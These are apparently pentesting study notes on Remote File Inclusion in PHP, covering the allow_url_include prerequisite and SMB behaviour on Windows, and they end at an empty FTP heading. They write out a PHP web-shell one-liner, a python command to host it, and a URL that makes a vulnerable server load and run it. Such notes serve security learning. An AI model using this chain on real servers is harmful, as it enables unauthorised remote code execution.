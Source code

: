 ### Remote File Inclusion (RFI)

This allows for the attacker to include remote files, not just the ones local to the server or machine.
- This allows us to include malicious scripts to enumerate and gather information, or deploy a web shell to gain code execution.

> Most of the time, a RFI vulnerability is a LFI vulnerability, but the opposite case is not true. This might be because the function doesn't allow remote files to be included, the entire file path is not under control (the protocol part can't be changed), or the web server prevents loading of remote files.

For this vulnerability to work, the `allow_url_include` option needs to be set to on in the configuration file.
- Check above in the PHP wrapper section on how to check. ([[#Data Wrapper]]).
- **NOT THE CASE FOR WINDOWS SERVERS.** Windows [[Server Message Block (SMB)]] servers can load remote files from other SMB servers without the `allow_url_include` option enabled, as they are treated as normal files that can be directly referenced.

Might also not work if it is set to on, so always try to include a URL and check if it works.
- Try first a local URL so the [[Firewall]] doesn't block it.
```URL
http://127.0.0.1:80/index.php
```

> Check if the included file was rendered as HTML, or if the file itself was executed in its native language. If it got executed, then there is a chance of this escalating to code execution.

#### Remote Code Execution

To obtain remote code execution, we need to host a script of a web shell such that the RFI vulnerability in the application can load that URL and include our malicious file.

> When hosting the script, make it on a common well known [[Port]] such as `80` or `443` as these ports can be whitelisted by the web application server and its firewall. Other ports might be closed for security reasons.

- The first step is crafting the shell code:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, to host this script such that the RFI vulnerable application can be able to reach and load the script.
- We can try various [[Protocol]]s because some might be closed or not working.
###### [[HTTP]] 

Using python `http.server` in the directory where the `shell.php` file exists.

```bash
sudo python3 -m http.server 80
```
- Now, exploiting the vulnerability, enter this URL to reach the `shell.php` file and pass the command using the `cmd` query parameter: `http://machine.ip:80/shell.php&cmd=id`.
- The `cmd` is placed after a `&` not `?` since this entire URL is a query parameter.

###### [[File Transfer Protocol (FTP)]]
